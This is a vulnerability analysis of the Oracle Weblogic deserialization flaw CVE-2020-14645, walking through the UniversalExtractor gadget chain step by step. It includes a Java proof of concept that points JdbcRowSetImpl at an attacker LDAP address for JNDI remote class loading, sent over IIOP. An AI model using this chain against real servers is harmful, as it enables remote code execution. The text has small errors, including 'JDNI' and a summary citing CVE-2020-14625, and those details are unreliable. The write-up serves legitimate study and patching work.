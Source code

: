 # Analysis of Weblogic Remote Command Execution Vulnerability (CVE-2020-14645)

> Author: White Hat Alliance Security Research Institute @hu4wufu
>
> Verified by: White Hat Alliance Security Research Institute @r4v3zn



## 0x00 Preface

The recently disclosed deserialization RCE vulnerability CVE-2020-14645 in Weblogic is a bypass of CVE-2020-2883 patch. CVE-2020-2883 essentially called arbitrary methods through ReflectionExtractor, which then executed arbitrary commands using the exec method of the Runtime object. The patch blacklisted ReflectionExtractor, so a new exploit chain could be constructed using UniversalExtractor. UniversalExtractor can call the get and is methods arbitrarily, which leads to the exploitation of JDNI remote dynamic class loading. UniversalExtractor is unique to Weblogic version 12.2.1.4.0, and this article analyzes it based on that version.



## 0x01 Vulnerability Reproduction

The POC for exploiting the vulnerability is as follows. The analysis below is based on this POC:

```java
ChainedExtractor chainedExtractor = new ChainedExtractor(new ValueExtractor[]{new ReflectionExtractor("toString",new Object[]{})});
PriorityQueue<Object> queue = new PriorityQueue(2, new ExtractorComparator(chainedExtractor));
queue.add("1");
queue.add("1");
// Construct UniversalExtractor to call any method of JdbcRowSetImpl object
UniversalExtractor universalExtractor = new UniversalExtractor();
Object[] object = new Object[]{};
Reflections.setFieldValue(universalExtractor, "m_aoParam", object);
Reflections.setFieldValue(universalExtractor, "m_sName", "DatabaseMetaData");
Reflections.setFieldValue(universalExtractor, "m_fMethod", false);
ValueExtractor[] valueExtractorList = new ValueExtractor[]{universalExtractor};
Field[] fields = ChainedExtractor.class.getDeclaredFields();
Field field = ChainedExtractor.class.getSuperclass().getDeclaredField("m_aExtractor");
field.setAccessible(true);
field.set(chainedExtractor, valueExtractorList);
JdbcRowSetImpl jdbcRowSet = Reflections.createWithoutConstructor(JdbcRowSetImpl.class);
jdbcRowSet.setDataSourceName("ldap://ip:port/uaa");
Object[] queueArray = (Object[])((Object[]) Reflections.getFieldValue(queue, "queue"));
queueArray[0] = jdbcRowSet;
// Send IIOP protocol data packet
Context context = getContext("iiop://ip:port");
context.rebind("hello", queue);
```

Successfully popped the computer

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415758370-f75b02fe-344f-4559-9714-237bddccd182.png)



## 0x02 Vulnerability Analysis

Those familiar with JDNI injection know that the vulnerability is triggered in the lookup() method. In this case, we set a breakpoint at line 326 of the lookup() method in JdbcRowSetImpl.class.

The following is a brief call chain for exploiting the vulnerability:

We start from the beginning and know that the essence of deserialization is to restore objects according to certain rules when we read data from the IO stream. We set a breakpoint at in.readObject() and investigate the PriorityQueue.readObject() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415821026-3da34ef1-87fc-479e-bb41-2434f7c3a484.png)

Here, line 782 executes s.defaultReadObject(), line 785 executes s.readInt() to assign the object input stream size and array length, and line 790 executes a for loop to assign the s.readObject() method to the queue object array one by one. Here, the length of the queue object array is 2.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415957621-409a311b-a101-4090-b6c9-54c784f60811.png)

Then, we continue to investigate the heapify() method. PriorityQueue is actually a min-heap, and sorting and heapifying are achieved through the siftDown() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682415986883-35de3200-6994-4d1d-8682-89e408b816fe.png)

When we investigate the siftDown() method, it first checks whether the comparator is null. We can see how the comparator is assigned. It is assigned in the constructor of PriorityQueue, and besides assigning this.comparator, it also initializes the length through initialCapacity.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416031870-19799fef-41c8-4d95-8270-66887e64dff1.png)



Since the comparator is not null, we execute the siftDownUsingComparator() method, so we continue to investigate the siftDownUsingComparator() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416174041-59523f9f-5924-4bad-a016-271fa361215a.png)

We then continue to investigate the ExtractorComparator.compare() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416182420-5fb0315b-a4f3-433d-9a08-032c991d79f0.png)

Here, the method this.m_extractor.extract() is called. Let's take a look at this.m_extractor. It is related to the extractor that was passed in. Here, we need to construct this.m_extractor as ChainedExtractor in order to call the extract() method of ChainedExtractor.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416208256-6519a0dd-6767-4421-bb2e-e3aba9225eb1.png)

Continuing to investigate the ChainedExtractor.extract() method, we can see that it traverses the aExtractor array and calls the extract() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416221034-a1d7102d-a2b1-4d17-a1ca-4c90ad3768e5.png)

Continuing to investigate the extract() method, because m_cacheTarget is marked as transient, it cannot be deserialized, so only the else part can be executed, and the vulnerability point is ultimately triggered through this.extractComplex(oTarget).

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416234128-15c8dd92-e6db-47b9-b9bb-d21a6a0c5073.png)

In this.extractComplex(oTarget), we can see that the reflection is executed through method.invoke(), where oTarget and aoParam are both controllable.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416266141-1d4ba18c-2d7a-4199-98ad-af91729c21fa.png)

We continue to investigate the findMethod() method at line 190. At line 475, fExactMatch needs to be true and fStatic needs to be false in order to allow the passed-in clz to access any method. fStatic is controllable, and fExactMatch defaults to true, which can be kept unchanged as long as it does not enter the for loop, making cParams an empty Class array or aclzParam an empty Class array. Here, aclzParam is obtained from the getClassArray() method.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416415425-27600d94-5f46-4c58-bffb-9f9c57f166cf.png)

In getClasssArray, the corresponding Class is obtained by obtaining the value of the input parameter.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416427543-111c0777-9237-4417-82e9-301c0f0d3ba9.png)

Since the passed-in aoParam is an empty object[], the corresponding Class is also an empty Class[], and when isPropertyExtractor() is called, we can see that the opposite value of this._fMethod is obtained.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416439293-189b1d63-1f9e-4a56-a4ae-96836e411432.png)

Since m_fMethod is marked as transient and not serialized, by analyzing the assignment process of m_fMethod, it can be found that sCName is obtained during init() and assigned by judging whether it ends with ().

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416450876-2776b3f5-1567-48ae-8c3f-bebb758a2925.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416458699-c94cf671-d802-4ed0-b022-b3dbf98aa93e.png)

Due to the parameter being this, the getValueExtractorCanonicalName() method always returns null.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416492455-821f582a-d5f2-4813-a8fe-280bd7944089.png)

Continuing to investigate the getValueExtractorCanonicalName() function, it ultimately calls computeValuExtractorCanonicalName for processing.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416508674-e6231edf-117f-4337-96ef-6142ad6b9cb0.png)

After continuing to investigate computeValuExtractorCanonicalName(), it will return null if aoParam is not null and the array length is greater than 0. Because aoParam must be null, the method we call must have no parameters. Then, if the method name sName does not end with (), it will simply return the method name. Otherwise, it will determine whether the method name starts with a prefix in the VALUE_EXTRACTOR_BEAN_ACCESSOR_PREFIXES array. If so, it will be truncated and returned.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416528671-42e3d90c-59bc-407b-a8af-22eb5904fb71.png)

Back to the extractComplex() method, in the if condition, the method name returned above will be capitalized and concatenated with a prefix in the BEAN_ACCESSOR_PREFIXES array to determine whether the spliced method exists in the clzTarget class. Here, we can see that we can only call parameterless methods that start with get or is in any class. This explains why the poc uses JNDI to achieve remote dynamic class loading.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416541300-b45db286-ade1-4e54-b781-ddb1c9b4a50b.png)

Continuing to investigate the method.invoke() method will directly jump to JdbcRowSetImpl.getDataba seme taData().

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416628384-fd4f128d-a2c7-4acf-bda1-f7156440b1e5.png)

Since JdbcRowSetImpl.getDataba seme taData() calls this.connect(), we can see that the lookup operation is executed at line 326, triggering the vulnerability.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416645367-84d38989-f394-40ff-987c-5e6bae8a437f.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416679859-0dc74278-2413-4d7e-be66-891e4d4e977b.png)

By continuing to investigate getDataSourceName(), we can see that the controllable dataSource is called.

![img](https://cdn.nlark.com/yuque/0/2023/png/32457783/1682416694211-5fb787b1-926b-4eca-bb5a-89e4e196983a.png)



## 0x03 Summary

In summary, this vulnerability mainly exploits UniversalExtractor to bypass the blacklist and call get and is methods arbitrarily, leading to JNDI injection and extending CVE-2020-14625.



## 0x04 References

- [WebLogic coherence UniversalExtractor deserialization vulnerability (CVE-2020-14645) analysis](https://paper.seebug.org/1280/#cve-2020-14645)
- https://www.oracle.com/security-alerts/cpujul2020.html


<br/>

<br/>
[Goby Official URL](https://gobies.org/)

If you have a functional type of issue, you can raise an issue on GitHub or in the discussion group below:

1. GitHub issue: https://github.com/gobysec/Goby/issues
2. Telegram Group: http://t.me/gobies (Community advantage: Stay updated with the latest information about Goby features, events, and other announcements in real-time.) 
3. Telegram Channel: https://t.me/joinchat/ENkApMqOonRhZjFl 
4. Twitter：[https://twitter.com/GobySec](https://twitter.com/GobySec)
